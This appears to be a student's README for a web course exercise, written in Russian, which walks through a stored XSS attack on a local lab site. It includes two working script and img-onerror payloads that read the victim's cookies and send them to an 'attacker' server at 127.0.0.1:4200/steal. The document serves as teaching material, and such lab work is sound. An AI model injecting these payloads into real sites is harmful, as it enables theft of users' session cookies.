 # web-practice
web course tasks
<h1>Хранимая xss атака</h1>
<h2>Кихтенко Татьяна, КН-302</h2>
<h3>Воруем куки:</h3>
<ol>
<li>Запускаем сервера сайта(порт 3000) и мошенника(4200) </li>
<li>Переходим на форму: <code>localhost:3000/register</code></li>
<li>Мошенник вводит в форму зловредный скрипт, например<br>
<code>
 <script>let stealImg = document.createElement('img');stealImg.src = 'http://127.0.0.1:4200/steal?cookie=' + document.cookie;document.body.appendChild(stealImg);</script>
 <img id="stealImg" width='0px' height='0px'><img src='' onerror="stealImg.src='http://127.0.0.1:4200/steal?cookie=' + document.cookie;">
</code>
</li>
<li>Жертва переходит на <code>localhost:3000/register</code> и дружелюбно заполняет данные</li>
<li>Жертву редиректят на тред комментариев к посту -- т.е. скрипт злоумышленника подгружается как комментарий</li>
<li>Так, с помощью несуществующей картинки, злоумышленник получил кукисы жертвы на своем сервере</li>
</ol>
